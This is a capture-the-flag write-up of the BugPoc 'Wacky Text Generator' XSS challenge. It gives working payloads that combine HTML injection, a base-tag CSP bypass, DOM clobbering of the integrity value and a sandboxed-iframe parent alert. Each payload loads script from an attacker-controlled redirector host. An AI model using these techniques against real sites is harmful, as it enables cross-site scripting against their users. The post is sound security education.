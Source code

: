 ```yaml
---
layout: post
title: "BugPoc XSS Challenge"
tags: [Xss]
comments: true
---
```


BugPoc XSS Challenge
> I am not the one who solves this challenge quickly. After I got up, I saw that someone had submitted it 9 hours ago. But I learned something and some new thinking from this challenge, so I recorded it.Try to get the reward of the best blog.

### Challenge Details
[![](https://pbs.twimg.com/card_img/1324001987948650505/CVEcs2Rg?format=jpg&name=medium)](https://pbs.twimg.com/card_img/1324001987948650505/CVEcs2Rg?format=jpg&name=medium)
Wacky Text Generator (https://wacky.buggywebsite.com)<br>
Rules: Must alert(origin), must bypass CSP, must work in Chrome, must provide a BugPoC demo

### Solving
#### Step 1 : Found html injection
I first opened the challenge page and checked the source code<br>
[![图片一](https://github.com/Jinone/123/raw/master/_posts/image2/E046A1F2-CC9D-4590-AFAB-429BC8F7C7EC.png "图片一")](https://github.com/Jinone/123/raw/master/_posts/image2/E046A1F2-CC9D-4590-AFAB-429BC8F7C7EC.png "图片一")
Found a page https://wacky.buggywebsite.com/frame.html?param=Hello,%20World!<br>
Manual test parameter<br>
After finding the closed `<title>` tag. Can inject html code
[![](https://github.com/Jinone/123/raw/master/_posts/image2/900507D8-857F-44B4-93A2-52ECE7904D8D.png)](https://github.com/Jinone/123/raw/master/_posts/image2/900507D8-857F-44B4-93A2-52ECE7904D8D.png)
In fact, when I first viewed this page, I first checked the source code of the page, read the js, and then discovered this html injection

#### Step 2 :Bypass CSP
Although we have found html injection, it cannot perform xss
[![](https://github.com/Jinone/123/raw/master/_posts/image2/0F33FFF2-1161-476B-A183-46DD1365582C.png)](https://github.com/Jinone/123/raw/master/_posts/image2/0F33FFF2-1161-476B-A183-46DD1365582C.png)
Because
[![](https://github.com/Jinone/123/raw/master/_posts/image2/226C1B5B-8A9C-4E17-98DD-6F9C6822AA73.png)](https://github.com/Jinone/123/raw/master/_posts/image2/226C1B5B-8A9C-4E17-98DD-6F9C6822AA73.png)
```
content-security-policy: script-src 'nonce-kplddkwaepak' 'strict-dynamic'; frame-src 'self'; object-src 'none';
```
You can use [this](https://csp-evaluator.withgoogle.com/ "this") to check csp security
[![](https://github.com/Jinone/123/raw/master/_posts/image2/1D76462E-B4C3-4A56-BFCE-6B37377F507E.png)](https://github.com/Jinone/123/raw/master/_posts/image2/1D76462E-B4C3-4A56-BFCE-6B37377F507E.png)
Missing base-uri allows the injection of base tags. They can be used to set the base URL for all relative (script) URLs to an attacker controlled domain<br>
Just use the previously found html injection to inject `<base href="">`<br>
Since this is a ctf challenge, this may be a breakthrough. (If bugbounty, this may not have any effect).I did find relative (script) injection in the js at the bottom
[![](https://github.com/Jinone/123/raw/master/_posts/image2/5DA4ADF1-7835-4E59-AB24-199FEB759377.png)](https://github.com/Jinone/123/raw/master/_posts/image2/5DA4ADF1-7835-4E59-AB24-199FEB759377.png)
But this has to be judged by `if (window.name =='iframe')`<br>
This site `x-frame-options: SAMEORIGIN` cannot use iframe<br>
But  we can set window.name through window.open()<br>
Such as
```
<script>
window.open("https://wacky.buggywebsite.com/frame.html?param=xss","iframe");
</script>
```
##### First try
```
if (window.name == 'iframe') {
			
			// securely load the frame analytics code
			if (fileIntegrity.value) {
				
				// create a sandboxed iframe
				analyticsFrame = document.createElement('iframe');
				analyticsFrame.setAttribute('sandbox', 'allow-scripts allow-same-origin');
				analyticsFrame.setAttribute('class', 'invisible');
				document.body.appendChild(analyticsFrame);

				// securely add the analytics code into iframe
				script = document.createElement('script');
				script.setAttribute('src', 'files/analytics/js/frame-analytics.js');
				script.setAttribute('integrity', 'sha256-'+fileIntegrity.value);
				script.setAttribute('crossorigin', 'anonymous');
				analyticsFrame.contentDocument.body.appendChild(script);
				
			}

		} else {
			document.body.innerHTML = `
			<h1>Error</h1>
			<h2>This page can only be viewed from an iframe.</h2>
			<video width="400" controls>
				<source src="movie.mp4" type="video/mp4">
			</video>`
		}
```
After reading this js, I initially thought it would create an iframe and write a `<script src="files/analytics/js/frame-analytics.js">` in it
[![](https://github.com/Jinone/123/raw/master/_posts/image2/FE25CC6A-0801-45CF-881C-872368008AF1.png)](https://github.com/Jinone/123/raw/master/_posts/image2/FE25CC6A-0801-45CF-881C-872368008AF1.png)
I only need to inject the `<base>` tag, control the base-URL to my own domain , and upload a file `/files/analytics/js/frame-analytics.js`, load my own js.<br>
Use [bugpoc mock](https://bugpoc.com/testers/other/mock "bugpoc mock") to construct POC
[![](https://github.com/Jinone/123/raw/master/_posts/image2/6EB8183A-F2A5-4723-835D-F42A3BF94C5B.png)](https://github.com/Jinone/123/raw/master/_posts/image2/6EB8183A-F2A5-4723-835D-F42A3BF94C5B.png)
Then use  [Flexible Redirector](https://bugpoc.com/testers/other/redir "Flexible Redirector") for 302 redirection
[![](https://github.com/Jinone/123/raw/master/_posts/image2/04EBC976-4EDF-4AC8-BD7D-5BE099123108.png)](https://github.com/Jinone/123/raw/master/_posts/image2/04EBC976-4EDF-4AC8-BD7D-5BE099123108.png)
get https://le8497ljneda.redir.bugpoc.ninja/files/analytics/js/frame-analytics.js content `alert(origin);`<br>
Payload
```
<script>
window.open("https://wacky.buggywebsite.com/frame.html?param=</title><base href='https://le8497ljneda.redir.bugpoc.ninja/'>","iframe");
</script>
```
###### Say no
[![](https://github.com/Jinone/123/raw/master/_posts/image2/EE6AAD95-E078-48FA-BE73-55F3E1C3C692.png)](https://github.com/Jinone/123/raw/master/_posts/image2/EE6AAD95-E078-48FA-BE73-55F3E1C3C692.png)
##### Second
Read this [Subresource Integrity](https://developer.mozilla.org/en-US/docs/Web/Security/Subresource_Integrity "Subresource Integrity")<br>
This helps me understand what is happening<br>
After that I fell into a dead end,I have been thinking about how to bypass SRI,It took a while.(It seems that need to find a browser vulnerability to solve the problem, so the idea at the time was wrong)<br>
After changing mind, only try to modify the value of `integrity`
```
	<script nonce="lxggbsrloata">
	
		window.fileIntegrity = window.fileIntegrity || {
			'rfc' : ' https://w3c.github.io/webappsec-subresource-integrity/',
			'algorithm' : 'sha256',
			'value' : 'unzMI6SuiNZmTzoOnV4Y9yqAjtSOgiIgyrKvumYRI6E=',
			'creationtime' : 1602687229
		}
	
		// verify we are in an iframe
		if (window.name == 'iframe') {
			
			// securely load the frame analytics code
			if (fileIntegrity.value) {
				
				// create a sandboxed iframe
				analyticsFrame = document.createElement('iframe');
				analyticsFrame.setAttribute('sandbox', 'allow-scripts allow-same-origin');
				analyticsFrame.setAttribute('class', 'invisible');
				document.body.appendChild(analyticsFrame);

				// securely add the analytics code into iframe
				script = document.createElement('script');
				script.setAttribute('src', 'files/analytics/js/frame-analytics.js');
				script.setAttribute('integrity', 'sha256-'+fileIntegrity.value);
				script.setAttribute('crossorigin', 'anonymous');
				analyticsFrame.contentDocument.body.appendChild(script);
				
			}

		} else {
			document.body.innerHTML = `
			<h1>Error</h1>
			<h2>This page can only be viewed from an iframe.</h2>
			<video width="400" controls>
				<source src="movie.mp4" type="video/mp4">
			</video>`
		}
		
	</script>
```
To modify the value of `integrity` first,  must modify `fileIntegrity.value`.<br>

`window.fileIntegrity = window.fileIntegrity || {...}`<br>
Seeing this, I thought that as long as I created a `window.fileIntegrity` using the previously discovered html injection,  could change the `fileIntegrity.value`<br>
Because js is a "accommodating" language.For example,  `name` of `iframe`, `id` of `input`. In the unoccupied case, it will change from assignment to dom selector, so it can be used to hijack regular parameters (value href name id src ref..)<br>
`<input id='fileIntegrity'  value='w7eu4SGHdqamrZE5Wi%2bayP8t7tuSBLDdoq4DQUxSpL8='>`   modify `fileIntegrity.value`<br>
Payload
```
<script>
window.open("https://wacky.buggywebsite.com/frame.html?param=</title><input id='fileIntegrity' value='aErQrfRCGgdInIpMEDCWj2%2bHQUab648smjdgPAUdBKU='><base href='https://le8497ljneda.redir.bugpoc.ninja/'>","iframe");
</script>
```
###### Say no again
[![](https://github.com/Jinone/123/raw/master/_posts/image2/E3DE688B-930C-46E4-8C59-58781D64DCE5.png)](https://github.com/Jinone/123/raw/master/_posts/image2/E3DE688B-930C-46E4-8C59-58781D64DCE5.png)
`<iframe sandbox="allow-scripts allow-same-origin" class="invisible"></iframe>`<br>
But the security of using `allow-scripts` `allow-same-origin` at the same time is very low<br>
Because can manipulate the parent window.Just use the alert() of the parent window<br>
Modify the content of `/files/analytics/js/frame-analytics.js` to `window.parent.alert(origin);`<br>

###### Final Payload
```
<script>
window.open("https://wacky.buggywebsite.com/frame.html?param=</title><input id='fileIntegrity' value='w7eu4SGHdqamrZE5Wi%2bayP8t7tuSBLDdoq4DQUxSpL8='><base href='https://960ejm5yq2xy.redir.bugpoc.ninja/'>","iframe");
</script>
```
[![](https://github.com/Jinone/123/raw/master/_posts/image2/E380C034-C25C-4BE0-A826-BAF8B65CCD40.png)](https://github.com/Jinone/123/raw/master/_posts/image2/E380C034-C25C-4BE0-A826-BAF8B65CCD40.png)

### Conclusion
Sorry for my poor English<br>
In order for everyone to understand, the article is written in detail<br>
Although this challenge is simple, it does show that sometimes changing the way of thinking can make the problem very easy<br>
If you have any questions, welcome dm me([jinonehk](https://twitter.com/jinonehk "jinonehk"))
